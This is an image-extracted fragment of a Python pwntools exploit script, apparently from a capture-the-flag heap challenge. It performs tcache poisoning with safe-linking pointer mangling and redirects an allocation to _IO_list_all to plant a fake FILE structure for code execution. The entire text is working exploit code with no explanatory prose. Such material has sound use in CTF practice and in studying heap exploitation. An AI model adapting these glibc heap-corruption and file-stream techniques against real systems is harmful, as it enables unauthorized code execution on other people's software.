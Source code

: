 ```py
# # start tcache poisoning
# # 0x5648fa9190e0 0x5648fa92c000
# # 0x20 bin at 0x5648fa919090, 0x30 bin at 0x00005648fa92ca20
# # 0x50 bin at 0x5648fa9190a8 (cover this to IO_list_all) 0x90 bin at 0x5648fa9190c0

log.info("our heap base: " + hex(heap_base))

io_list_all = libc_base + libc.symbols["_IO_list_all"]
tcache_metadata = heap_base - 0x14000 + 0xe0
fd = tcache_metadata ^ (heap_base >> 12)

p.recvuntil("--- Enter code ---\n")
for i in range(5):
    p.sendline("0")

for i in range(7):
    p.sendline("add")
for i in range(6):
    p.sendline("mul")

# alloc to tcache metadata
fd_lower = fd & 0xffffffff
if fd_lower > 0x7fffffff:
    fd_lower -= 0x100000000

fd_upper = (fd >> 32) & 0xffffffff
p.sendline(str(fd_lower))
p.sendline(str(fd_upper))

p.sendline("end")

p.recvuntil("--- Enter code ---\n")
p.sendline("0")
p.sendline(str(0x1337dead))
p.sendline("mul")
p.sendline("mul")
p.sendline("mul")
p.sendline("mul")
p.sendline(str(0x21))
for i in range(13):
    p.sendline("mul")

io_list_all_lower = (io_list_all - 0x10) & 0xffffffff
if io_list_all_lower > 0x7fffffff:
    io_list_all_lower -= 0x100000000
io_list_all_upper = (io_list_all >> 32) & 0xffffffff
p.sendline(str(io_list_all_lower))
p.sendline(str(io_list_all_upper))
p.sendline("end")

p.recvuntil("--- Enter code ---\n")
for i in range(9):
    p.sendline("0")

fake_io_lower = fake_io_addr & 0xffffffff
if fake_io_lower > 0x7fffffff:
    fake_io_lower -= 0x100000000
log.info("libc_base: " + hex(libc_base))
log.info("heap_base: " + hex(heap_base))
for i in range(11):
    p.sendline("mul")
p.sendline(str(0x51))
p.sendline("0")
```